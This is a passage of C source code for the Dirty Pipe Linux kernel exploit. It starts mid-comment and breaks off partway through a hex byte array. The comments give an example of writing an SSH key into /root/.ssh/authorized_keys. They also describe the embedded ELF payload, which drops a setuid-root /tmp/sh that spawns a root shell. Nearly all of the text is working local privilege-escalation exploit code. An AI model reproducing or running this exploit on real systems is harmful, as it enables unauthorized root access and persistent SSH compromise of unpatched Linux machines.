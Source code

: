 ```python
 *
 * There are two major limitations of this exploit: the offset cannot
 * be on a page boundary (it needs to write one byte before the offset
 * to add a reference to this page to the pipe), and the write cannot
 * cross a page boundary.
 *
 * Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * Further explanation: https://dirtypipe.cm4all.com/
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <stdint.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

// small (linux x86_64) ELF file matroshka doll that does;
//   fd = open("/tmp/sh", O_WRONLY | O_CREAT | O_TRUNC);
//   write(fd, elfcode, elfcode_len)
//   chmod("/tmp/sh", 04755)
//   close(fd);
//   exit(0);
//
// the dropped ELF simply does:
//   setuid(0);
//   setgid(0);
//   execve("/bin/sh", ["/bin/sh", NULL], [NULL]);
unsigned char elfcode[] = {
  /*0x7f,*/ 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x97, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x97, 0x01, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x8d, 0x3d, 0x56, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0x41, 0x02,
  0x00, 0x00, 0x48, 0xc7, 0xc0, 0x02, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48,
  0x89, 0xc7, 0x48, 0x8d, 0x35, 0x44, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc2,
  0xba, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc0, 0x01, 0x00, 0x00, 0x00, 0x0f,
  0x05, 0x48, 0xc7, 0xc0, 0x03, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d,
  0x3d, 0x1c, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0xed, 0x09, 0x00, 0x00,
  0x48, 0xc7, 0xc0, 0x5a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff,
  0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x2f, 0x74, 0x6d,
  0x70, 0x2f, 0x73, 0x68, 0x00, 0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e,
  0x00, 0x01, 0x00, 0x00, 0x00, 0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38,
  0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00,
  0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40,
```